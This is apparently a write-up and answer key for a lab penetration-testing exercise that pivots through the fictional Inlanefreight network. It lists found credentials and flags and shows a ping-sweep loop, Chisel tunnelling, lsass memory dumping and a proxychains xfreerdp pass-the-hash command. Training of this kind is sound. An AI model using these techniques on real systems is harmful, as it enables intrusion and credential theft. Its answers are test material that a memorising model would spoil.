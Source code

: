 ## Scenario

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:
## Objectives
- Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
- Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
- Grab `any/all` flags that can be found.

**Note:**
Keep in mind the tools and tactics you practiced throughout this module. Each one can provide a different route into the next pivot point. You may find a hop to be straightforward from one set of hosts, but that same tactic may not work to get you to the next. While completing this skills assessment, we encourage you to take proper notes, draw out a map of what you know of already, and plan out your next hop. Trying to do it on the fly will prove `difficult` without having a visual to reference.

## Questions and Solutions

1.  Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.
```shell
We can find a /home/webadmin direcotry with credentials

Answer: webadmin
```

2. Submit the credentials found in the user's home directory. (Format: user:password)
```shell
mlefay:Plain Human work!

(Found id_rsa as well)
```

3. Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.
```shell
Get a reverse shell from Pwnyshell to host for better stability.
Then perform a ping sweep:
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
.$i | grep "bytes from" &) ;done 172.16.5.
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.421 ms

172.16.5.35
```

4.  Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer
```shell
Used Chisel to pivot and get into internal network via xfreerdp.
Then dump lsass.exe since we have privilege for.
Finally tranfer to our attacker machine de lsass.dmp.
S1ngl3-Piv07-3@sy-Day

Perform a ping sweep with new PIC in the restricted network (Third)
We find :
172.16.6.25
172.16.6.45
```
5.  In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?
```shell
vfrank (See lsass.dmp)
Make port forwarding with netsh
and connect to vfrank
> proxychains xfreerdp /v:172.16.5.35:8080 /u:vfrank /pth:'2e16a00be74fa0bf862b4256d0347e83' /drive:share,/workspace/CPTS/tmp 
```

6. Find flag on DC C:\Flag.txt
```txt
Check Shares and find the Flag
```